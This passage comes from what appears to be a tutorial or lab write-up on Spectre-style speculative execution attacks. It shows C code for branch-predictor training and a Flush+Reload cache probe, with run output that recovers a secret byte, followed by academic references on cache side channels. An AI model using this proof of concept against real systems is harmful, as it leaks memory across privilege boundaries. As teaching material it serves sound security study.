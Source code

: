 ```c
    int i;
    for (i = 0; i < 256; i++) {
        addr = &array[i * 4096 + DELTA];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD) {
            printf("array[%d * 4096 + %d] is in cache!\n", i, DELTA);
            printf("The secret is %d.\n", i);
        }
    }
}

int main()
{
    int i;
    /* The training procedure */
    for (i = 0; i < 10; i++) {
        _mm_clflush(&size);
        victim(i);
    }

    /* Flush the probing array */
    flushSideChannel();

    /* Access the secret */
    _mm_clflush(&size);
    victim(97);

    /* Reload the probing array */
    reloadSideChannel();

    return 0;
}
```

Compile the program and run it multiple times:
```console
$ gcc -march=native specexec.c -o specexec
$ ./specexec
array[97 * 4096 + 1024] is in cache!
The secret is 97.
$ ./specexec
array[97 * 4096 + 1024] is in cache!
The secret is 97.
$ ./specexec
array[97 * 4096 + 1024] is in cache!
The secret is 97.
$ ./specexec
array[97 * 4096 + 1024] is in cache!
The secret is 97.
$ ./specexec
$ ./specexec
array[97 * 4096 + 1024] is in cache!
The secret is 97.
```
We can see that although $97 > 10$, the secret element still appears in the cache, which is due to the out-of-order execution and the branch prediction at the microarchitectural level. However, if we call <code>victim(i + 11)</code> rather than <code>victim(i)</code> (so that <code>i + 11</code> always greater than <code>size</code> for <code>i = 0..9</code>) during the training procedure, the output becomes:
```console
$ gcc -march=native specexec.c -o specexec
$ ./specexec
```

[^intro1]: Claudio Canella, Jo Van Bulck, Michael Schwarz, Moritz Lipp, Benjamin von Berg, Philipp Ortner, Frank Piessens, Dmitry Evtyushkin, and Daniel Gruss, "A Systematic Evaluation of Transient Execution Attacks and Defenses," In *Proceedings of the 28th USENIX Security Symposium*, August 14-16, 2019, Santa Clara, CA, USA.
[^1]: Colin Percival, "Cache Missing for Fun and Profit," In *BSDCan 2005*, Ottawa, CA, 2005.
[^2]: Matt Miller, "Mitigating Speculative Execution Side Channel Hardware Vulnerabilities," [https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/](https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/), March 15, 2018.
[^3]: Daniel J. Bernstein, "Cache-Timing Attacks on AES," [https://cr.yp.to/antiforgery/cachetiming-20050414.pdf](https://cr.yp.to/antiforgery/cachetiming-20050414.pdf), April 2005.
[^4]: David Gullasch, Endre Bangerter, and Stephen Krenn, "Cache Games &mdash; Bringing Access-Based Cache Attacks on AES to Practice," In *2011 IEEE Symposium on Security and Privacy*, May 22-25, 2011, Oakland, CA, USA.
[^5]: [Eran Tromer](http://www.cs.tau.ac.il/~tromer/cache/), Dag Arne Osvik, and Adi Shamir, "Efficient Cache Attacks on AES, and Countermeasures," *Journal of Cryptology*, Vol. 23, No. 1, 37-71, Springer, 2010.
[^6]: Fangfei Liu, Yuval Yarom, Qian Ge, Gernot Heiser, Ruby B. Lee, "Last-Level Cache Side-Channel Attacks are Practical," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^7]: Gorka Irazoqui, Thomas Eisenbarth, and Berk Sunar, "S&dollar;A: A Shared Cache Attack that Works Across Cores and Defies VM Sandboxing &mdash;&mdash; and its Application to AES," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^8]: Yuval Yarom and Katrina Falkner, "Flush+Reload: A High Resolution, Low Noise, L3 Cache Side-Channel Attack," In *Proceedings of the 23rd USENIX Security Symposium*, August 20-22, 2014, San Diego, CA, USA.
[^9]: Jann Horn, Google Project Zero, "Reading Privileged Memory with a Side-Channel," [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html).
[^10]: Tao Zhang, Kenneth Koltermann, and Dmitry Evtyushkin, "Exploring Branch Predictors for Constructing Transient Execution Trojans," In *ASPLOS'20: Proceedings of the Twenty-Fifth International Conference on Architectural Support for Programming Languages and Operating Systems*, March 16-20, 2020, Lausanne, Switzerland.
[^11]: Nadav Amit, Fred Jacobs, and Michael Wei, "JumpSwitches: Restoring the Performance of Indirect Branches in the Era of Spectre," In *Proceedings of the 2019 USENIX Annual Technical Conference*, July 10-12, 2019, Renton, WA, USA.
[^12]: Dmitry Evtyushkin, Dmitry Ponomarev, and Nael Abu-Ghazaleh, "Jump over ASLR: Attacking Branch Predictors to Bypass ASLR," In *2016 49th Annual IEEE/ACM International Symposium on Microarchitecture (MICRO)*, October 15-19, 2016, Taipei, Taiwan, China.
[^13]: Return Stack Buffer Underflow / CVE-2022-29901, CVE-2022-28693 / INTEL-SA-00702, [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html).
[^14]: Esmaeil Mohammadian Koruyeh, Khaled N. Khasawneh, Chengsu Song, and Nael Abu-Ghazaleh, "Spectre Returns! Speculation Attacks Using the Return Stack Buffer," *WOOT'18: Proceedings of the 12th USENIX Conference on Offensive Technologies*, August 2018.